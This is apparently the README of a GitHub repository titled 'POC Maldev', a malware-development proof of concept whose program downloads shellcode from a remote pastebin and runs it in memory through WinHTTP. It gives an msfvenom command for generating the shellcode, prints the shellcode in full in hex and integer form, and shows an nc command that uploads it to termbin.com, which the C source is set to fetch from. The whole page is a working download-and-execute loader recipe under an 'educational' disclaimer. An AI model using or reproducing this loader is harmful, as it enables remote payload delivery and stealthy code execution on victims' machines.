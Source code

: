 # POC Maldev

> **Disclaimer**: This repository is for educational purposes only. The author is not responsible for any misuse of the information contained herein.

## Description

This repository is a proof of concept of a malware development that retrieves shellcode from a remote server and executes it in memory.

## Requirements

- [CMake](https://cmake.org/)
- [Metasploit](https://www.metasploit.com/)

## Usage

Create your shellcode using **msfvenom** and save it in a file.

```powershell
msfvenom --platform windows --arch x64  -p windows/x64/exec CMD=calc.exe -b '\x00\x0A\x0D' -f hex
```

After generating the shellcode in hex format, we need to convert it into **integer** format. (You can use [CyberChef](https://gchq.github.io/CyberChef/) to convert it).

Here is an example of the shellcode generated by **msfvenom**:

```powershell
"\xeb\x27\x5b\x53\x5f\xb0\x98\xfc\xae\x75\xfd\x57\x59\x53"
"\x5e\x8a\x06\x30\x07\x48\xff\xc7\x48\xff\xc6\x66\x81\x3f"
"\x61\xde\x74\x07\x80\x3e\x98\x75\xea\xeb\xe6\xff\xe1\xe8"
"\xd4\xff\xff\xff\x10\x98\xec\x58\x93\xf4\xe0\xf8\xd0\x10"
"\x10\x10\x51\x41\x51\x40\x42\x41\x46\x58\x21\xc2\x75\x58"
"\x9b\x42\x70\x58\x9b\x42\x08\x58\x9b\x42\x30\x58\x9b\x62"
"\x40\x58\x1f\xa7\x5a\x5a\x5d\x21\xd9\x58\x21\xd0\xbc\x2c"
"\x71\x6c\x12\x3c\x30\x51\xd1\xd9\x1d\x51\x11\xd1\xf2\xfd"
"\x42\x51\x41\x58\x9b\x42\x30\x9b\x52\x2c\x58\x11\xc0\x9b"
"\x90\x98\x10\x10\x10\x58\x95\xd0\x64\x77\x58\x11\xc0\x40"
"\x9b\x58\x08\x54\x9b\x50\x30\x59\x11\xc0\xf3\x46\x58\xef"
"\xd9\x51\x9b\x24\x98\x58\x11\xc6\x5d\x21\xd9\x58\x21\xd0"
"\xbc\x51\xd1\xd9\x1d\x51\x11\xd1\x28\xf0\x65\xe1\x5c\x13"
"\x5c\x34\x18\x55\x29\xc1\x65\xc8\x48\x54\x9b\x50\x34\x59"
"\x11\xc0\x76\x51\x9b\x1c\x58\x54\x9b\x50\x0c\x59\x11\xc0"
"\x51\x9b\x14\x98\x58\x11\xc0\x51\x48\x51\x48\x4e\x49\x4a"
"\x51\x48\x51\x49\x51\x4a\x58\x93\xfc\x30\x51\x42\xef\xf0"
"\x48\x51\x49\x4a\x58\x9b\x02\xf9\x47\xef\xef\xef\x4d\x58"
"\xaa\x11\x10\x10\x10\x10\x10\x10\x10\x58\x9d\x9d\x11\x11"
"\x10\x10\x51\xaa\x21\x9b\x7f\x97\xef\xc5\xab\xe0\xa5\xb2"
"\x46\x51\xaa\xb6\x85\xad\x8d\xef\xc5\x58\x93\xd4\x38\x2c"
"\x16\x6c\x1a\x90\xeb\xf0\x65\x15\xab\x57\x03\x62\x7f\x7a"
"\x10\x49\x51\x99\xca\xef\xc5\x73\x71\x7c\x73\x3e\x75\x68"
"\x75\x10\x61\xde";
```

And here is the shellcode converted to integer format:

```powershell
235 39 91 83 95 176 152 252 174 117 253 87 89 83 94 138 6 48 7 72 255 199 72 255 198 102 129 63 97 222 116 7 128 62 152 117 234 235 230 255 225 232 212 255 255 255 16 152 236 88 147 244 224 248 208 16 16 16 81 65 81 64 66 65 70 88 33 194 117 88 155 66 112 88 155 66 8 88 155 66 48 88 155 98 64 88 31 167 90 90 93 33 217 88 33 208 188 44 113 108 18 60 48 81 209 217 29 81 17 209 242 253 66 81 65 88 155 66 48 155 82 44 88 17 192 155 144 152 16 16 16 88 149 208 100 119 88 17 192 64 155 88 8 84 155 80 48 89 17 192 243 70 88 239 217 81 155 36 152 88 17 198 93 33 217 88 33 208 188 81 209 217 29 81 17 209 40 240 101 225 92 19 92 52 24 85 41 193 101 200 72 84 155 80 52 89 17 192 118 81 155 28 88 84 155 80 12 89 17 192 81 155 20 152 88 17 192 81 72 81 72 78 73 74 81 72 81 73 81 74 88 147 252 48 81 66 239 240 72 81 73 74 88 155 2 249 71 239 239 239 77 88 170 17 16 16 16 16 16 16 16 88 157 157 17 17 16 16 81 170 33 155 127 151 239 197 171 224 165 178 70 81 170 182 133 173 141 239 197 88 147 212 56 44 22 108 26 144 235 240 101 21 171 87 3 98 127 122 16 73 81 153 202 239 197 115 113 124 115 62 117 104 117 16 97 222
```

Next step is to upload our shellcode to a remote pastebin service. In this case we are using [termbin](https://termbin.com/) (you can use any other service).

```powershell
cat shellcode.txt | nc termbin.com 9999
```

Copy the link and paste it in the [main.c](src/main.c) file.

```c
#define HOST L"termbin.com"
#define PATH L"/d30q"
```

Compile the project and execute it.

## How it works

The program will use the `winhttp` module from the Windows API to make a GET request to the remote server. The response will be the shellcode that will be copied to a buffer and executed in memory.

## Compiling

```powershell
mkdir build
cd build
cmake .. -G "MinGW Makefiles"
```

## References

- [WinHttpOpen function](https://docs.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-winhttpopen)
- [VirtualAlloc function](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)
- [WriteProcessMemory function](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
